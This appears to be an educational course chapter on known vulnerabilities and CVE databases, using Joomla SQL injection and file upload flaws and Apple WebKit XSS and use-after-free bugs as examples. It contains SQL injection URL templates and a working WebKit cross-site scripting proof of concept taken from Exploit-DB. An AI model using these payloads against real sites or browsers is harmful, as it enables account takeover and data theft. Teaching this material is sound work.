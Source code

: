 Known Vulnerabilities
=====================

*Written by Nathan, Edited by Taylor and Collin.*

Introduction
------------

Known vulnerabilities are code creations that are known to cause unwanted and 
unintended effects. Because of the multitude of ways that websites can be 
attacked, web security is an ongoing fight between security developers and 
hackers. These security vulnerabilities can include a wide variety of exposures, 
including cross site scripting, SQL injection, insecure file uploads, 
authentication bypass, and many, many more. To keep things organized, the 
internet contains dozens of CVE (Common Vulnerabilities and Exposures) databases 
that are filled with examples of issues other people have found in certain websites. 

Why Release the Vulnerabilities to a Database?
----------------------------------------------

When the vulnerability is placed in the database, the developer isn't the only 
one who can make a query. Because the CVE databases are public, hackers can find 
the information just as easily, making the vulnerability a race between the 
developer and the hacker. This brings up the question: why would anyone want to 
create a database of known vulnerabilities? It's much easier to commit the 
attack than to patch a solution, test it, and push it to the server. 

Fortunately, the vulnerabilities are oftentimes placed in 
the database by the developer after the vulnerability has been patched. This is 
done to tighten security on applications being actively developed by other 
security experts. The experts can find common issues that have been discovered
by their like-minded peers, then implement the solutions into their own 
application. That being said, no software has been proven to be airtight, and 
vulnerabilities are being released every day to help combat mischievous 
attackers. These applications can be developed by anyone from small, upcoming 
businesses to software powerhouses. Below are two applications that are 
known to have vulnerabilities, including information on how to combat them. 

Joomla!
-------

Joomla! is a content management system that deals with website creation and 
distribution. A variety of sites have been created with Joomla!, including 
Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
[JOO]_. Because their product has been used to create millions of websites, 
security should be a primary concern to protect their partners and their 
partners' users. That being said, there is an extensive list in the Exploit 
Database with recent vulnerabilities with the Joomla application. Known 
vulnerabilities include:

**SQL Injection**

Joomla MSG (My Personal Messages) is a way in which users are able to 
communicate with one another through a website. An exploit was found that 
allowed for an attacker to log in as another user by appending the default 
message website path with SQL queries, resulting in an attacker being able to 
view other user's messages. 
`Here <http://2017-web-development.readthedocs.io/en/latest/sql_injection/sql_injection.html>`_ 
is a link with more information regarding SQL injections. Below is an example of 
how the SQL injection could be implemented into a URL to access another person's 
messages in Joomla MSG [EDB]_.::

	# View someone else's messages
	http://localhost/[PATH]/index.php?option=com_mymsg&view=msg&filter_box=[Insert_SQL_Here]
	# Reply as someone else
	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]

To protect against this, the web application should have steps in place to 
remove system database privileges from normal users. This will prevent an 
attacker from making their own queries into the database, assuming they haven't 
found a way to bypass the authentication of the database. 

**Insecure File Upload**

The default Joomla Event Manager (JEM) allows for an authenticated user to 
upload HTML and HTM files as an attachment. If an attacker was to upload the 
files containing malicious Javascript coding, a victim would be able to 
download said files. This would put them at risk to whatever hack the attacker 
created. More information on insecure file upload can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/directory_traversal/directory_traversal.html>`_. In order to prevent this type of vulnerability, the 
JEM should restrict file uploads to valid files of a certain type.

Apple
-----

Apple is a large, multibillion-dollar company that offers a variety of 
services. One of these services includes Apple WebKit, a web browser engine 
used by OS X applications including Safari [AWK]_. Developers can use Apple WebKit to create their own web browsers. There are several past 
vulnerabilities found with Apple WebKit, including the following:

**Cross Site Scripting**

Cross Site Scripting (or XSS) is a vulnerability that is usually found within 
web applications. An attacker using XSS can inject their script to a normal 
website, which unknowingly passes the malicious script to the user [XSS]_. The 
script language is usually Javascript due to nearly every website using some 
form of it. The script can then read the information that the user's computer 
transmits to the website, including location and cookies. A further description 
of XSS can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/xss/xss.html>`_.

Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this 
type of attack. The code attacks the FrameLoader::clear function that clears the
user's screen. XSS is then injected into the unload event handler with 
Javascript to execute whatever function the attacker desires. The code looks 
similar to this [EDB]_.::

	function main() {
	    let f = document.body.appendChild(document.createElement("iframe"));
	     
	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	    a.contentWindow.onunload = () => {
	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	        b.contentWindow.onunload = () => {
	            f.src = "javascript:''";
	 
	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	            c.contentWindow.onunload = () => {
	                f.src = "javascript:''";
	 
	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
	                d.contentWindow.onunload = () => {
	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
	                        alert(document.location);
	                    } + ")") + "')), 0);";
	                };
	            };
	        };
	    };
	 
	    f.src = "https://abc.xyz/";
	}
	 
	main();

**Use After Free**

Use after free is an issue that targets memory corruption, attempting to access 
memory after it has been freed by the RAM. This attack can cause the 
application, or web browser, to crash. In more serious instances, this 
vulnerability can lead to the attacker remotely executing code on the user's 
computer [UAF]_. This vulnerability was found in regards to Apple's WebKit in 
the HTMLFormElement::reset() function. There was a flaw in how the software 
accessed the associated elements variable, which was able to be modified by the 
reset function. By adding custom elements to the variable while it is iterated, 
the already-existing elements are pushed forward, letting the attacker execute 
his or her own data [EDB]_. 

Prevention of Known Vulnerabilities
-----------------------------------

In order to protect your web projects, there are plenty of companies that 
perform security tests that spot weak points in your code. They can pull from 
CVE databases in order to attack your code in every which way, letting you know 
exactly how attackers will attempt to breach your security. Utilizing their 
services, as well as performing security tests of your own, is paramount in 
creating a safer, more secure internet. There are also update options offered 
by many CVE database sites, notifying you of any recent breaches in applications 
like yours. Therefore, using these databases and checking for past security 
exploits is the best way to prevent attackers from manipulating your website via 
known vulnerabilities. 


Works Cited
-----------
.. [JOO] "`Joomla.org." <https://www.joomla.org/>`_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
.. [EDB] "`Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017. 
.. [UAF] Stroud, Forrest. "`Use After Free." <http://www.webopedia.com/TERM/U/use-after-free.html>`_ What Is Use After Free? Webopedia Definition. N.p., n.d. Web. 26 Feb. 2017."
.. [AWK] "`WebKit." <https://webkit.org/>`_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
.. [XSS] "`What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.